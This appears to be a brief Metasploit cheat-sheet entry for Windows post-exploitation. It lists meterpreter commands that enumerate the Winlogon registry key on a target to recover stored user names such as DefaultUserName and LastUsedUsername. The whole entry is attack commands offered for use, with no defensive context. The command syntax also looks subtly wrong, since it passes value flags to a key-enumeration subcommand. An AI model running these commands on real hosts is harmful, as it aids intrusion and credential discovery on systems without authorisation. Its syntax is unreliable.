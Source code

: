 # Metasploit

Search Tag(s): #post-exploitation #enumeration-and-discovery #privilege-escalation #metasploit-framework #windows

```
meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" -v DefaultUserName

meterpreter > reg enumkey [-r <target_IP>] -k "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" -v LastUsedUsername
```